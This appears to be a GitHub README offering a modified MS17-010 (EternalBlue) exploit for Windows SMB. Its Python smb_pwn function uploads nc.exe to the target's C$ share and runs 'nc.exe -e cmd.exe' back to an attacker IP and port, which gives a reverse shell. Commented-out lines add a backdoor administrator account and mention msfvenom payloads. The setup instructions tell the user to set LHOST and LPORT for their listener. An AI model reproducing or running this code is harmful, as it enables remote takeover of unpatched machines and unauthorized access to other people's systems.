 # MS-17-010_Reverse_Connection_nc
Run MS17-010 modified exploit to get reverse nc connection

Modified Code
Change LHOST and LPORT. This is your IP address and port where you are listening.
nc.exe is in same folder where your script.


def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()	
	#print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)	
	#smb_send_file(smbConn, 'Full path of nc in local', 'C', '/nc.exe')
	smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
	#service_exec(conn, r'cmd /c net user temp temp123 /add && net localgroup administrators temp /add')
	print "check your nc...for reverse connection...."
	#service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe LHOST LPORT')
	service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe 10.11.0.152 3333')
	smbConn.disconnectTree(tid2)
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)


![Alt Text](https://giant.gfycat.com/HappygoluckyEdibleHummingbird.webm)
